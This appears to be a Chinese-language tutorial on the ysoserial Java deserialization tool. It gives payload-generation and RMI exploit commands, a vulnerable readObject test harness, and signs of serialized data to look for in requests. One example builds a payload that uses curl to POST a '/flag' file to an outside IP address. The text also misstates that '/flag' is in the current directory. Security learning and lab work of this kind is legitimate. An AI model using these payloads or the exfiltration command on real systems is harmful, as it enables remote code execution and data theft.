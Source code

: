 Ysoserial 
<https://github.com/frohoff/ysoserial>
一款用于生成利用不安全的Java对象反序列化的有效负载的概念验证工具。
图形化优化版可以直接导出：<https://github.com/0ofo/Deswing> 
## **使用**
使用生成命令：
```
java -jar ysoserial.jar
java -jar ysoserial.jar [payload] '[command]'
```
案例：
```
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
nc 10.10.10.10 1099 < groovypayload.bin

java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe

java -jar ysoserial.jar ROME "curl http://1.2.90.186:1234 -d @/flag" |base64
`-d @/flag`：`-d`选项告诉`curl`要发送一个POST请求，并且指定了要发送的数据。
`@`符号后面跟着的是一个文件路径，`/flag`表示要发送的数据位于当前目录下的`flag`文件中。
`curl`会读取这个文件的内容，并将其作为POST请求的数据发送到服务器。
```

^
## **复现**
对生成后的.bin文件进行反序列化，存在对应的依赖，则可以触发。
```
 java -jar ysoserial.jar CommonsCollections7 calc.exe >cc7.bin
 java -jar ysoserial.jar URLDNS http://dnslog.cn >url.bin
```
```
public static Object DeSerializable(String path) throws IOException, ClassNotFoundException {
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(path));
    return ois.readObject();
}

public static void main(String[] args) throws IOException, ClassNotFoundException {

    new ArrayStack();
    DeSerializable("src/cc7.bin");
}
```
```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
</dependencies>
```

## **常规入口场景**
下方的特征可以作为序列化的标志参考：
一段数据以rO0AB开头，你基本可以确定这串就是Java序列化base64加密的数据。
或者如果以aced开头，那么他就是这一段Java序列化的16进制。
所以这串数据可能会被服务端拿去反序列化。

比如一个Authorization头是这样的，不是标准jwt，可能是序列化后的用户类
```
Authorization Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
```
可以使用burpsuite的java DeserializationScanner插件扫描可利用链，或者代码审计依赖利用链。
常规可以直接使用ysoserial.jar打。
